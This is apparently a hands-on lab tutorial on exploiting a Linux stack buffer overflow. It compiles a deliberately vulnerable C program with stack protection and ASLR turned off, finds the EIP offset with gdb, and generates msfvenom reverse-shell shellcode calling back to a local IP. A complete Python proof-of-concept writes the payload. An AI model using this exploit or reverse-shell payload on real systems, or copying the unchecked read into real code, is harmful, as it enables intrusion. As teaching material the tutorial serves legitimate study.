

# Linux Buffer Overflow Foundation
## 1. What is Buffer Overflow
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system as a whole, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques.

## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):
```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:
```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code
```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash
```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```
![[image1.png]]
As we can see, the program works good, so let's try with bigger size:
```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```
![[image2.png]]
At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:
```bash
$ gdb -q oversize_overflow
```
In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:
```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
![[image3.png]]
Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:
```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```
Get back to terminal, create the basic exploit to see if it overrided:
```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```
Run the input file in gdb debugger, we can see the `EIP` overrided with 0x42424242 (meant BBBB). We are completely done with overriding the `EIP`.
![[image4.png]]
### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it
```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```
- Options description:
```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```
![[image5.png]]

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.
```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```
After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.
![[image6.png]]
In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address
#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:
```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```
After run we have text file `input.txt`![[image7.png]]
Finally, we got the result, shellcode is connected![[image8.png]]
![[image9.png]]

------------------------------------------------------- Done -------------------------------------------------------
